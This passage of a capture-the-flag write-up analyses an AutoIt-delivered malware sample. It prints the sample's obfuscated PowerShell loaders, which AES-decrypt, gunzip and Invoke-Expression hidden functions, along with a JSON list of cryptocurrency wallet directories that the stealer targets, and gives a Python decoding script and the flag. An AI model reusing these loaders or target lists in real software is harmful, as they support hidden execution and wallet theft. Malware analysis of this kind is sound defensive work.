BEADMAWABWAGwAVABFADEAeQBKAGUAQQBwAGMAUQBYAG0AMAAvAHMAdgBnAFkAagBtAGwAMgBnAGMANgB3AFUAMwBTAC8AdQBTADgAWABHAHcASQBGAEEASgBSAG0AZQA1AEEAawBYAEwAOQBJADkATQBlAGMAbAA3AFQAMABMAGMAMABDAGcASABhAHkAcQBzAG8ANwBtAFgAcgA4AHUASQBEADYATgBZADcAOABsAHEAagBuAGcAUQBiAFoAZABFAGUAWgA2AEwARgBNADYAbwA3AE4AOAA2AHkAcwBZAGQAYgB0AEwAcABNADUAKwBqAHEAKwBSAHIARgBDADMAZgA1AEIARwBvAFQAQwBBAGkATwA5ADMAUABDAHkAawBwAEsAaQBSAGMAaQBYAFcAdwBPAFIAbABHAHAARgBjAG0AegBKADcAVgBaAFkAQwArAFEAbAAwADUAOAByAEcAVwBVADQAeABuAHQAdwBlAGQAVQBkADcAMAA1AG4ARwBHAFIAMwA2AGUAagBkAC8ARgBUADcAawBIAGMAdQBrAEIAdQAzAHcATgBSAGwAWgBZAFkAdgBvAGMAMABEAFIAagBmAFUAYQBWAEcAQQAwAHEAMgBKAG0AMAA0AHEAWQBDACsAVAAzADMARgBRAEIAYQAwAGsAVABMAGcAKwAvAGoAdABYAHoASQBrAC8AdQBZAFkAWQBzADMAZgBLADQAMgBtAEYAVABWAGwANwAxAGcAQwBHADEAbAA3ADkAVABVADcASQBUAEYAWgBVAEUAYwBFAE0ASABlAGYAQgBsAEEAWQBtAEkAYQBuADQAcgBLADYANABGAGoAUwBoAFYALwBsAEsAUgB4AFoAbQBVAG8AVwBiADkATwBQADQAZQB4AGgAcwBMAGQAWQBiADYAVAArAEMAYgBxAGMAKwBYADUAdwBuAEQASwBWADIAdwBXAEkARgBWAHMANQByADQARwBOAEoAYwBVADIAOQBKADQANQB2AEwASAByAGkATQBTAG4AeABJAHIALwBHAEQARAA3AGoAWQBDAHkATABOAGsAcAArAFkAWQBWADkAZwAwAE8AdQBQAG8AOQBIAEIAUABKAEcAdwBBAHUAVQA4ADgAagBUAGMAdgBoAGEAYgBwAHoANwB2ADEAMQBIAGkAdwB3AEsANwBhAG4AcgBkAC8AYgBuAGUANABHAHQARQB2AFMATwBxADQANgBtAGUASABNAGsAZgBHAFQAbwBXAFgATwB4AE0ATwBhAEkAUABZAEIAdQA0AEgAZQBaAHEAcgBxAHUAMABVAFgAQwAxAGcAWABBAG8AcgBWAHAANABZAGkAegBKAFYANAByADkAQQBHAHgATABKAFYAeABDAFYAUQBUAE0ATwBwAHcAUwBDADEAZQBXADgAVwBVAGQAVQA2AEEAdwB0AHYARQA5AGEAVwBaAFkASgBQAGQAMwBmAGQANAA3AC8AUAA2AEUAZwBQAEMAQwAyAFcASgBDADkAQgBhAFoAbABEADgATgBnAGcAQwBZAFIAMABvAEUARQBIAG8ANwBaAEYAVABzAHQAdgBxAEoATABXAGQAUgBTAGcAKwBWAGkAbgBLAGUAaQBMAEUAbgB5AGMAcwBKADkAbwBkADYAWAA5AG0ARABqAG4ASwBiAFUAMgBvAHIAcgByAGYAdgBlADcAVgBQAGsANABkAHIAMQByAHYATABBAGkARwArAFcAbgBBAFMAbgBiADEAOQB1ADkAVgA1AFIAMgBWAEoAUQA4ADUAaABMADIARQBXAHYASQBMADYAMwBUAFUAWAAyADQALwBWAEoAZABTAFgAYwBqAGwAUgBXAG4AcwA2AFMATQBOAG8AMgBHAGgARwA1AFEAQQBKAHYAagBDAFoASQA1AGQAbQA3AG4ANQA0AE0ARgBJAHQAdABPADkAcAArAGwAaQBsADgAcQAyAGcAawBaAGYAegBaAEYASAB4AGwAWgBCADMATgBMAGcAdwBuAG4ANABTAHUAdQBmAHMATABoAEIAcwBZAGkAVgArAGwAKwBPAG8AcwBLAG4AbABFAGcASABaAGMASQBBAE4AcAB1ADAAMQBwAG0ANwBxAEkAWgA4AFMAVABIAEIAYgBwAFQAWgB0AFgAaABmAG0AVAB6AFoAOQBsADQARAArAEIAWgBoAFMANgBtAG4ARwBJAHgAYQBSAGMARwB1ADIAVwBOAHcASABxADAAeABOAHkATwBaAGgAZgB3ADQAVQBaAFIAaQB0AEgAdwBYAEwAZwB5AEIAeAA1ADEAWQBuAHcAdwBKAFgAMABzADQALwBrAHEAVwBSAE0AdABIAHQAWQBuADMAWQB4AGgANQByAEYAMQBzAGQAcQBnAEQAVAB2AGUAcQA3AFAANQBZAFoAOQAxAEYANgBTAEwAKwBZAEoANAB3AFEAbgBlAE4AUQBvAGgAUgBFAFMAegBJADcAMgAxAFMATQB5AFYAbABTAEYAVgBXAG4AaABRAHMAMABrADEATQBiAFoAUwBaAG8ANQBaAFoAdgBDAEMARQBWAFoATQBjAG4AWgB5AGQAMQBVAE4AZgBTAGUAbwB1ADgASgBpAEUAegBOAGcAdABVAEkANQBDAFMAbgAvAEoAYQA3ADgALwBuAEoARwA2AE8AYwBaAGwAVgA0ADYAWgBJAFAAOABlAHEAegBjAEEAdABFAGwAVwBLAGcASwB5AGYARwA0AGwARQBRAFMAcwBrAEgAVwA4AFIAOABlADkAbABCAFIAbgBHAHgAYQBzADcAbgBFADYAeQBhADcATQBwAEYARgBmAGUAOABnAGkATwB5AEIAbABSAEIAVQB3ADQAVwA5AHQARwBzAEMAYgBFAEIAeQBEAHYAcgBIAEYASwBiAFcATwBqAC8AVABOADQAQQBtAHEASgBCAHIAZAA0AGUAUwBmADAAeQBVAG0ANQBHAFkAMAA3AGsAYgBYAGkAbQBLAEUAYQBNAFIAUgAzAEwAcQB1AFUAUwBNAFIATQBJADkAVQBNAEQAeABpAEkAVAAwADcANABSAGUAegAxAEMAYQBJAEQATgAvAFUANwBUADkAKwBCAHMAcQA5AHIAVwBsAEgATABsAGwAbwA5AHMATQAvAGUAbQBLAEYAYQA4AGUAcwBRAEwAUQB4AFAAZQB4AGcAQgAvADIAMQBWADYAcQAyAFQAZABwAEIASABpADMAUgBHAFQAZgBaAGoAdgBuAEEAbQBTADUAWQBuAGgAaABjAHQARwBtADQAZQBCACsAMABMAEYAagBwADIAYQBVAEgAbgBOAEUASAA2ADcALwBzAFoASABCAFUAdgBNAEYAUwB3AEsANgBnAGwAVQBnAEEAQgBiADYAVQA2ADIAZQAwAEsARgAyAEEAWgBRAHgAWgBXAEMAWQA3AGsAbgBzAGsAZABIAHkAeQBoAEkAMgAvAEkATAAxAGEAawAvAHYARABsADgALwAyAGcAUQBmAHoAMgAxAGYAbwBQAGkAMQBYAGIAMQAxAEkAdwBVAHgASQBHAHgAaQBjAHoAWQBoAFgAMgBnADAANgBzAHAAdQA4AHgAOAAyAFAAVwBVAHUAdgA1AG4ARwBmAGUAVgBZAEwAdQBwAEIAZwBHAGUAeABWAFUAbQBlADYAMAA5AEEARwBBADMAaQAvAHgATwBCAG8AbQBGAHAAQgBiAFAAWgBlAEsAUAAzAGQAMgAyAHIAbwBRAG0AQwBxAGoARQBpAEYAdABXADIAZgBQAGYAQwB4AGcAOABHAGMAVwBGAEoAZwBGAHQAbABXAEwAYQArAFAAYgBuAGYAUQBtAGEAcABjAEcASwBFAHQAUgBoAGsAVwBwADcAcQBUAHkAcwA5AGIAQQB0AGQAMwAxAG4AMAAvAFgAUgBpAGIAdABSAEsAbgBsAEUANQArAGwAdgBtAGgANgB0AFYAYQAvADIAUABoADgATwBCAFoANQBzAEMARwBRAHUANgAxAE0AbgB5AG8ASgBxAFoAYQBrAEIAYQBYAE0AbQA2AGMAeQB2AHcANABsAFIAMwAyADMASgBZAE0AUgB6AG4ANAArAEgASQBhAGMASgBBAFMAbgBPAGsAUAB5AGYAagBRAHcAdAAvADEAWgBPAGQAQwA0AFAAdwBDAEcAbABEAHIAYQBXAHQAUABXAEUAUgBVAEcAawA3ADEAUQBHAGYAUwBIADYAVwBnAG8ASwBhAEcASgAxACsAawA2AFMAbwBTAE4AUwBNAHIAdQAvAHcAZQAwADYAKwAxAEoAagBoACsAVwB6AHEAbAA5ADIARwBSAGwAYQBGAEsAYgBMADEAcgBxAHYAMgBKAGoAZgBUAHUAWgByADUAeAA0AGoATABXAHYATwBEAHUAYQBSAG4AbABtAGYAcwBmAEQARQAwADMAWgBiAEoAYgBoAFkAUAB5AEUAbwBJADQAdQBtAGEAZQBwAEUAegByAFoARgBwAE4ASAB4ACsAYQBFAFYAaQBlAFgAQQA3AFgALwBnAGUAWgAxAGMAcgBzADYAMgBxACsAVgB4AFIAdwBjAFgARwAyAEYAYgBuADEARwBLAGgAQwArAGkAcABpADUAWQB3AFMAdgBSAGQASABvAHMAOABKADAASwBFAGUASgBOAGIAawBnAFEAKwBwAEsAMwBJAGIAYwBVAG0AUQBuAFAAbgBGAEEARQBJAFMAbwBhAHIAdgAvAEgAcwBhADUASQA1AFYARABRADMAVQB5AFAANwBsAHoAVAB6AGYAaABzAGoAVwBHAG0AZABRAFgASQBuACsAMABZADcAagBZADQAcQA5AEQAOABxAFoAcwBjAHEAUwBsAHcANwBYAEwAWAAyADQANwBvAEgAVQA0AHcAbABhAEEAUQBOAGIAUgAzAGwASwAzADgAMwBLAGUAaQBDADAANgBSAEYANgBwAEkARgA1AGUAdwBKAFgAYgBGAFMAcwBoAEgAUgBUAEcAQQB1AEgAWQA0AG4AOQBrAG4ASABVADkAMgArADkAZwBRAEQAaABNAHEANwA3AEoAbwBVADIAaQBVADIATwBYAFkAagB1AGwAUwBNAGYAOABrAC8AagBEAEUAcQBDADUARgBBAHoAcABsAFMANABYAGoAQQByAG0AVAB1AGYAMABTAEEAYQBGAG8AUQB4AGYAWgBNAHkAcQBPAE4AawByAHAAbwBDAHgAUAA5AHEAMgBEAGwAUABkADMAVgBUAFAAagBuAHoAbgBrADAAagBlAEcAVABmAGIAMwBQAEEAZQA3AHIAMABpAE8AdABRAEQANAB6AGEAQQByADAAUAB3AHIARABsAGIASgBXAEwAVABKAEsANgBTAFYAZwBPAEUATAA3AEoAOQBiAHcAUQBFAFIAeQBMAG8ARQBKAHQAeQBHAG8AUgAyAHQAZgBWAHQAdQB1AFcAbQBXAHUAdQAzAGMAdgBPAE8AOABGAHkALwBNAFcAcABuADIAVgB3ACsAVwBVAGsARQBMAGEAOAAzADAAMwAvAGYATQBZAG4ASAAwAFQAWAAyADUAZwBPAFcAVgBEAFgAcgBNAGUAWAB5ADgAawBPAHIAYgA1AFYAUwBjAHYAVABtADUAcQBhAGwAOQAwAGgAVgBOAGsAOAA0AEoAbAAxAEUAYwBsAEEARQBMAHgARwBWADIAWgBSAFcATQBqAGIAQwBmAHMAYwA3AG4AMABiAGQAMQBjADUAUgBaAEgAeQBwAFUAUQB3AHAAWgBhAHkAaAAzAFAASQBSAEUANAA2AFAAUQBmADcAWABzAGEAUgB5ACsAbgA3ADYAcQBLAEoAQwAyAGUAYwBzADkAdgBaAHYAWgBwAHcAbwBoADAAUQBNAGQAUwB4AHoAcAAxAFUAOQBxAEYAegAwACsANgBxAEoARABWAFUAbwBnAHcAYwBKAHoASABsAHkAVQBmAHQAWQBQAHAATgAxADcARgAyAFcAQQA5AHkAMwBEAEUATgAyAEkAYgBwAFcAbgAzAFIAaAB1AHoASgBWAEQAQQBVAE0AcgBkAFUAMgB2AEYARgB4AFcAUgBwAEgAQwB1AE8ATQA1AGUAbQBEAFAANgBaAHMAcQBSADUAVwBmADkARQBEAGEASwBkAHQAcAByADEAOABmAEsATQAwAEMAUwBWAEYAVABOAGsANABEADgAUwAwADMANQBaAEcAZQBSAG4AQwBmAFcAdQBmAFkALwBtAE8ATgBhAHkAYwBGAHQANwBTADcAdgA4AFcASwArAEoARwBBADEANgAwAHIAdQBiAGEAegBMAG4AegBUADMAcABpADEATwB3ADcAeAB1AHUAbgBrAFUASgBwAEoANABUAFcAIgAKACQAYgBhAHMAZQA2ADQARQBuAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuACAAPQAgACQAYgBhAHMAZQA2ADQAYwBvAGQAZQBkAC4AUwB1AGIAcwB0AHIAaQBuAGcAKAAzADIALAAgACQAYgBhAHMAZQA2ADQAYwBvAGQAZQBkAC4ATABlAG4AZwB0AGgAIAAtACAANgA0ACkACgAkAGsAZQB5ADEAIAA9ACAAIgA4AHcAWABNAEIAMABrAEcAMgBPAFgAdQAwAE8AcABoACIACgAkAGsAZQB5ADIAIAA9ACAAIgBZAE8AcQBlAHcAdwBTAHUAVABWAEIAYgBuAGwAYQAyACIACgAkAGsAZQB5ADMAIAA9ACAAIgBVAEkAMwBWAGEAeQBPAEwAMABzADgAVQBRADkAMQBMACIACgAkAGYAdQBsAGwASwBlAHkAIAA9ACAAJABrAGUAeQAxACAAKwAgACQAawBlAHkAMgAgACsAIAAkAGsAZQB5ADMACgAkAHMAYQBsAHQAIAA9ACAAIgBqADYASwB6AHIAWQBCAGkAcwBxAFEAawB4AFoANABSACIACgAkAGsAZQB5AEQAZQByAGkAdgBhAHQAaQBvAG4AIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AUgBmAGMAMgA4ADkAOABEAGUAcgBpAHYAZQBCAHkAdABlAHMAXQA6ADoAbgBlAHcAKAAkAGYAdQBsAGwASwBlAHkALAAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAYQBsAHQAKQAsACAAMQAwADAAMAApAAoAJABrAGUAeQBCAHkAdABlAHMAIAA9ACAAJABrAGUAeQBEAGUAcgBpAHYAYQB0AGkAbwBuAC4ARwBlAHQAQgB5AHQAZQBzACgAMwAyACkACgAkAGkAdgAgAD0AIAAiAEYANABUAEEARAB2ADkAUwBmAHUAegBXAHMAagB4AFMAIgAKACQAaQB2AEIAeQB0AGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABpAHYAKQAKAGkAZgAgACgAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAIAAtAGwAdAAgADEANgApACAAewAgACQAaQB2AEIAeQB0AGUAcwAgAD0AIAAkAGkAdgBCAHkAdABlAHMAIAArACAAQAAoADAAKQAgACoAIAAoADEANgAgAC0AIAAkAGkAdgBCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACAAfQAgAGUAbABzAGUAaQBmACAAKAAkAGkAdgBCAHkAdABlAHMALgBMAGUAbgBnAHQAaAAgAC0AZwB0ACAAMQA2ACkAIAB7ACAAJABpAHYAQgB5AHQAZQBzACAAPQAgACQAaQB2AEIAeQB0AGUAcwBbADAALgAuADEANQBdACAAfQAKACQAYQBlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AQQBlAHMAXQA6ADoAQwByAGUAYQB0AGUAKAApAAoAJABhAGUAcwAuAEsAZQB5ACAAPQAgACQAawBlAHkAQgB5AHQAZQBzAAoAJABhAGUAcwAuAEkAVgAgAD0AIAAkAGkAdgBCAHkAdABlAHMACgAkAGQAZQBjAHIAeQBwAHQAbwByACAAPQAgACQAYQBlAHMALgBDAHIAZQBhAHQAZQBEAGUAYwByAHkAcAB0AG8AcgAoACkACgAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJABiAGEAcwBlADYANABFAG4AYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AKQAKACQAZABlAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACAAPQAgACQAZABlAGMAcgB5AHAAdABvAHIALgBUAHIAYQBuAHMAZgBvAHIAbQBGAGkAbgBhAGwAQgBsAG8AYwBrACgAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMALAAgADAALAAgACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAKACQAbQBlAG0AbwByAHkAUwB0AHIAZQBhAG0AIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4ATQBlAG0AbwByAHkAUwB0AHIAZQBhAG0AKAAsACAAJABkAGUAYwByAHkAcAB0AGUAZABCAHkAdABlAHMAKQAKACQAZwB6AGkAcABTAHQAcgBlAGEAbQAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBHAFoAaQBwAFMAdAByAGUAYQBtACgAJABtAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAsACAAWwBTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQAKACQAcwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAKAAkAGcAegBpAHAAUwB0AHIAZQBhAG0AKQAKACQAZABlAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuACAAPQAgACQAcwB0AHIAZQBhAG0AUgBlAGEAZABlAHIALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkACgBJAG4AdgBvAGsAZQAtAEUAeABwAHIAZQBzAHMAaQBvAG4AIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgA="
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
```

This PowerShell script contained multiple functions, each decoded from base64. Interestingly, one of them was decoded with **Unicode** instead of UTF-8. At that point, we decided to decode every string using the following Python script:

```python
import base64

INPUT_FILE = "base64decodedAndExtracted"

if __name__ == "__main__":
    with open(INPUT_FILE, 'r') as file:
        data = file.read().rstrip()

    i = 0

    stringList = data.split('\n')
    for string in stringList:
        if '"' in string:
            try:
                # Extract the base64 string between quotes
                base64_string = string.split('"')[1]
                decoded_content = base64.b64decode(base64_string).decode('utf-8')
                
                with open(f'script{i}.ps1', 'w') as output_file:
                    output_file.write(decoded_content)
                
                print(f"Successfully decoded script{i}.ps1")
                i += 1
                
            except Exception as e:
                print(f"Error decoding line {i}: {e}")
                print(f"Problematic line: {string[:100]}...")
```

This gave us **10 PowerShell scripts**. Since we had already tested them in CyberChef, we suspected they were indeed PowerShell scripts. However, one of them stood out as different.

Most scripts looked like this:

```powershell
$base64coded = "aILxlK1PwXXHVN0ooR9F9dJ6fLl5KkkVYutKXisk/j5BlzwyuZsDNtwwM9jWUYkUpIxz3ZRcwOwGCkrE8eEogxT3XKGqikazbgEaqUyi0jOL9D2NRf0nZa6IzEZZfCF+YdICsYhIR5OdugtFdb+QIOJKhWwjFArhB6bYW4AW+3MNRQ61yt8mklu6DUb7JeC5hhdDl3t3Dmw+0LhD5S6h+8vf66a1xKFl8glwrx8/Dd8n4GcWdmbgNaI/pKesuf4b02LyZspIv1uoAxtuP3DZuseBsduA6TbQAFSAtVdCKSoOs2Ic3UDDkaN4gqnJHWlQW4/Y0cU2dG7NEQauMDKVw/RvPS9NFNvWGQ7xo3phlgwQycgI+e1dlnu3k5SzSeXh1XHpKV+q4rPtEfW+SvEyNcAVdBLbvHP6fvosZuEndI4z3VPVkRs/fvUnYBMnC2eVKwV4HXu69w+gwL0rlOWPk16qo+8M6AaX3GdcEOeJ4KfmdhkCdNtKtYQo2Oseywp77GUNQKIvY705D9HuIjdnO/1THHFt4gw2LZAWrRMok7My2uOMe6vwRxzi05ryFRO9Z2xm532ZcccrKmpVQAvG0+vKG8dWNuT1oCe5P7ZqD1w1F4jdCRkfOCUG8wGJM83+VmAdoqndLRMZhhEamm28Db/BSXycaSqs250ycAKbwTavIaECUvb3DtrP2Dpuk4eIWNGm2qURaQcbQavIbL6BY7nY4RQorOUmy9bByWfQax+LjQbTRRtHEIVCZUBtCH6W+tsGKlfn7W+iTpvTXT2+6TGTvgB6JiTDauQLXdC645AnNGIKVTXFsvdwpyN3lGGhwWudWpLOwud+vaCNX7bWmUptETsXX1ltJtmlrCAZ0eXJrOS+ClTSayiG5nL5y0itW1coLNthGjLlmaeciQ8QKSKJT+BETV+11KIDSzuw5SueQhuuMrYVU2ES3yLqXYJ7orICbdgp6z/YZ3QlXcFqc3b7akovfK8wL8mPNdQo/V0P5Z80CtH+aMGXxUxoFy645vcTj8HG9DYw+QnREKDt+UxL8KGergzblqCF3W6fwfA8njKyPzYxgjt0cyovYhym2jY0cZl0kNnlW0saOwrRjtw9dWgOoiu7Z3M8i88RRiiLTieTh/bZvVBA3Aa0AU53Lm3S1towbb3r4gEAqhhUVtClz6V/MM23fck9amHhEjxWvWENtrx+/R3juHKohUXvoMSzecJUUSeRytbEUQr7gDIxZk/eJ5Hwxwp9L6Q5Cl4bsF35g6Xb4w1NcA0LzucWxj9+QQvRfIy17awp0E7TgofF2VrFpTnRQBOvlmGhicTC+7yItEHuyqT3pk4Vih1w5kw4MXQroCfMH2pG41e/mPEvP2bqsv9mQd0eNYP4kFAl59+HKOHVQjX8GXMM/kTRamS5yZULgGroJJQRIybSVLlDLHIiF8epo+bIUVtK31mZ9HYJouZt0r3jLRGjH9253NjqRgC82pktDIOKLhc1dCbehKq6mJm3kdTHAlIJsfs4dIeCvUYA5wMwpcXLfzndO1mqGuA2cNn8+wOITJnYMAeiR88XQyZt0NHyxss/zQkxHAWdtOIq1NgQT2uiNhQeXx9XMF2xZ8zFwyI9SDB068JUnnJwOus+w/+FYNrPNBE+GAylwP4RVrL1xQJ+u0tmSSOhbLM8AN3VE1mbtOA4rQvlvrkpbnwjen5zznmPfIWhbuVBdogNyBiOHhJIaSab1Dx4rS8fUEr17kxmSIAMDErmb+cGMPCeBjEx0l9cSKkYP4eTcPeYoYC3p8X4qwUesO763jb7zn0=IAlP9lqS8AVesafzrBsPaW38RL0oqcwl"
$base64EncryptedFunction = $base64coded.Substring(32, $base64coded.Length - 64)
$key1 = "eeJsXD3VT2a7iFMF"
$key2 = "4QK0Zm3Qri61BgF8"
$key3 = "AGAuSHwl7pZo1uQL"
$fullKey = $key1 + $key2 + $key3
$salt = "nBYiV2b8wVrdqsCY"
$keyDerivation = [System.Security.Cryptography.Rfc2898DeriveBytes]::new($fullKey, [System.Text.Encoding]::UTF8.GetBytes($salt), 1000)
$keyBytes = $keyDerivation.GetBytes(32)
$iv = "qGCve1NYklJH6BIV"
$ivBytes = [System.Text.Encoding]::UTF8.GetBytes($iv)
if ($ivBytes.Length -lt 16) { $ivBytes = $ivBytes + @(0) * (16 - $ivBytes.Length) } elseif ($ivBytes.Length -gt 16) { $ivBytes = $ivBytes[0..15] }
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $keyBytes
$aes.IV = $ivBytes
$decryptor = $aes.CreateDecryptor()
$encryptedBytes = [System.Convert]::FromBase64String($base64EncryptedFunction)
$decryptedBytes = $decryptor.TransformFinalBlock($encryptedBytes, 0, $encryptedBytes.Length)
$memoryStream = New-Object System.IO.MemoryStream(, $decryptedBytes)
$gzipStream = New-Object System.IO.Compression.GZipStream($memoryStream, [System.IO.Compression.CompressionMode]::Decompress)
$streamReader = New-Object System.IO.StreamReader($gzipStream)
$decryptedFunction = $streamReader.ReadToEnd()
Invoke-Expression $decryptedFunction
```

But the particular script that stood out looked like this (we didn’t include the full content):

```powershell
$pathdata = 
@'
[
    {
        "root": "%appdata%",
        "targets": [
            {
                "name": "Exodus-A",
                "path": "Exodus"
            },
            {
                "name": "Atomic-A",
                "path": "Atomic Wallet"
            },
            {
                "name": "Electrum-A",
                "path": "Electrum"
            },
            {
                "name": "Ledger-A",
                "path": "Ledger Live"
            },
            {
                "name": "Jaxx-A",
                "path": "Jaxx Liberty"
            },
            {
                "name": "com.liberty.jaxx-A",
                "path": "com.liberty.jaxx"
            },
            {
                "name": "Guarda-A",
                "path": "Guarda"
            },
            {
                "name": "Armory-A",
                "path": "Armory"
            },
            {
                "name": "DELTA-A",
                "path": "DELTA"
            },
            {
                "name": "TREZOR-A",
                "path": "TREZOR Bridge"
            },
            {
                "name": "Bitcoin-A",
                "path": "Bitcoin"
            },
            {
                "name": "binance-A",
                "path": "binance"
            },
            {
                "name": "mexc-A",
                "path": "mexc"
            }
        ]
    },
    {
        "root": "%localappdata%",
        "targets": [
            {
                "name": "Blockstream-A",
                "path": "Blockstream Green"
            },
            {
                "name": "Coinomi-A",
                "path": "Coinomi"
            }
        ]
    },

    ...
```

Searching inside it, we found the **flag!**

### Flag

```
flag{27768419fd176648b335aa92b8d2dab2}
```

## Observations

This was a very interesting challenge. We had never heard of AutoIt scripts being used in attacks before. However, in May 2025, there were reports of malware campaigns using AutoIt. [This article](https://cyberpress.org/hackers-use-autoit-scripts-to-spread-malware/) was one of the clues that helped us solve this challenge.
